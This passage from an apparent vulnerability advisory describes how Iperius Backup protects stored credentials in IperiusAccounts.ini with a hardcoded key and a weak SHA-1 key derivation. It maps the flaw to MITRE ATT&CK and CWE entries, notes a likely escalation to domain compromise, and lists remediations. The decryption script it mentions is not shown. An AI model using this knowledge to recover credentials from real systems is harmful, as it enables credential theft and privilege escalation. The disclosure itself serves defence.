- It is **machine-independent**: the encryption key is hardcoded in the application binary and is not derived from any per-machine value. An `IperiusAccounts.ini` file exfiltrated from one system can be decrypted on any other system — or entirely offline.
- It is **fully offline**: the recovered algorithm enables purely offline decryption with a standalone script requiring only Python and the `cryptography` library.
- It requires **no administrative privileges**: a standard user with read access to the configuration file can recover all stored credentials.
- The KDF uses **a single SHA-1 iteration** with non-standard key expansion (repeating digest bytes), which is cryptographically weak.

From a **MITRE ATT&CK** perspective:

- **T1555 – Credentials from Password Stores** (extraction of stored credentials from the application's configuration);
- **T1552.001 – Unsecured Credentials: Credentials In Files** (credentials stored in a file with insufficient protection);
- **T1003 – OS Credential Dumping** (interception of credential material via the Decryption Oracle technique).

In terms of **CWE classification**:

- **CWE-321 – Use of Hard-coded Cryptographic Key** (the encryption key is static and embedded in the application);
- **CWE-522 – Insufficiently Protected Credentials** (stored credentials can be recovered in plaintext);
- **CWE-312 – Cleartext Storage of Sensitive Information** (effectively, the encryption provides no meaningful protection);
- **CWE-916 – Use of Password Hash With Insufficient Computational Effort** (single SHA-1 iteration for key derivation).

**Operational Risk Note:** While the formal CVSS v3.1 base score for this vulnerability is **6.5 (Moderate)**, the **effective operational risk in enterprise environments is significantly higher**. Iperius Backup is typically deployed on servers where backup tasks are configured with Domain Administrator or other high-privilege service accounts. Recovery of such credentials provides an immediate, single-step path from a low-privileged local user to full Active Directory domain compromise.

### Remediation

1. **Deprecate Hard-Coded Keys:** Remove static cryptographic keys from the application binary. Each installation should use a unique, machine-bound key.

2. **Implement Windows DPAPI / CNG:** Use `NCryptProtectSecret` (modern DPAPI) or `CryptProtectData` to bind encrypted data to the specific machine's identity.

3. **Use a Proper KDF:** Replace the single-iteration SHA-1 key derivation with PBKDF2 (>=100,000 iterations), Argon2, or scrypt.

4. **Credential Isolation:** Implement proper credential isolation so that credentials of one type cannot be substituted into contexts of another type.

5. **Configuration File ACLs:** Restrict read access to `IperiusAccounts.ini` to only the SYSTEM account and Backup Operators group.
